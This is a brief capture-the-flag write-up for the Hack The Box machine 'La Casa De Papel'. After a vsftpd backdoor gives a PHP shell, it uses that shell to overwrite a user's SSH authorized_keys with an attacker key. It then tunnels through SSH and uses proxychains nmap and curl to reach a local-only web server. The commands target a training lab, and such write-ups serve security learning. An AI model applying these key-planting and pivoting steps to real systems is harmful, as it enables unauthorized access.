 
#La Casa De Papel

Alternate way to get into the box, we don't need to do any certificate to log in as in the intended way.

Generate a new rsa public/private key with ssh-keygen, take the public key id_rsa.pub lets convert to base64, and call it PAYLOADBASE64


Log into the nc port 6200 after exploiting vsftd where we have a limited php enviroment, we have to upload the payload to /home/dali/.ssh/authorized_keys (we can overwrite it)
```
$>nc 10.10.10.131 6200
unlink("/home/dali/.ssh/authorized_keys");
fwrite(fopen("/home/dali/.ssh/authorized_keys","w+"),base64_decode("PAYLOADBASE64"));
```

Now we can log it using ssh to test the id_rsa we generated before, but we are not doing any command stuff, we just use it to enable a dynamic tunnel with the machine.

```
$>ssh -i id_rsa -D 1080 dali@10.10.10.131
```

In other terminal, using proxychains we can scan the ports that are open only for local connections

```
$>proxychains nmap -sT -n -Pn 127.0.0.1 -p-

PORT     STATE SERVICE
8000/tcp open  http-alt
```

Port 8000 is open, and if we scan it we can see that is a web server, is the same webserver we can browse if we use the intented way of entering the machine, but locally we don't need any certificate.

```
$>proxychains curl 127.0.0.1:8000
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-127.0.0.1:1080-<><>-127.0.0.1:8000-<><>-OK
<li><a href="?path=SEASON-1">SEASON-1</a></li><li><a href="?path=SEASON-2">SEASON-2</a></li><li><strong>Select a season</strong></li>
```

You have here also a python script to upload a public key and the private id_rsa file to enable the dynamic tunnel

